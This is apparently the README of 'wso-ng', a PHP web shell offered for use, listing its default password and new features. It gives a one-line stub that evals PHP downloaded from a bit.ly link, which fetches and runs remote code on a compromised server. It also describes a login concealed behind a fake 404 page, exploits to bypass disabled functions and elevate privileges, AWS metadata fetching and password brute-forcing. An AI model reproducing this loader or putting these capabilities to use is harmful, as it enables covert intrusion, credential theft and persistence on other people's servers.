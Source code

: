 # wso-ng
New generation of famous WSO web shell. With perks included
# default password is "root"
![image](https://user-images.githubusercontent.com/1212294/149636180-7af99caf-a6c4-4475-a42d-0bd818cb67b1.png)
![image](https://user-images.githubusercontent.com/1212294/149636349-e580a04e-846f-4240-8b94-644d6e9aca5a.png)

# changes
- can now hook password when loaded via stub `<?php eval(substr(file_get_contents('https://bit.ly/get-wso-ng?pass=ed78a48738eb97ffb5624741bdf391c3'), 5)); ?>`, and will use it instead of hardcoded one
- all subfile downloads are now cached in /tmp and zipped
- login page show natural site "404 not found" page. Just type password and press Enter, cuz password field hidden offscreen, but focused already.
- new breadcrumps navigation panel. Must be much more usefull.
- all files\dirs are now highlighted as their edit\view rights
- go to file\path right from breadcrumps field
- **add fastCGI exploit to auto-elevate & bypass disabled functions, when possible**
- **add php add-filter exploit to bypass disabled functions and gain console execution, when possible**
- ajax interaction now is default
- Ctrl+Enter on any field to Save\Run
- added "Fetch AWS metadata" command to bookmarks
- added hotlink to "Linux Exploit Suggester v2" by default.
- added VirusTotal integration, to autocheck IP reputation.
- added https://securitytrails.com integration, to show neighbors on same IP.
- added ip-info integration to show domains on same server
- added reverse ip check, to show real IP, and not local.
- added memory, cores and load average info to top bar.
- click on IP to copy it
- added list of open ports & sockets to *Sec. Info* section. Works ever if no console priveleges available, thru *fsock*.
- added support for phpRedis in *Sec. Info* section.
- reworked "Userful" section. Works thru limits of open basedir now.
- you can touch files right in file list of file manager now.
- fast copy name\path to clipboard by click.
- **neat syntax highlighting everywhere**.
- neat PHP code editing with autoindent support.
- default top1000 password list (https://bit.ly/top1kpass) in "Bruteforce" section. 
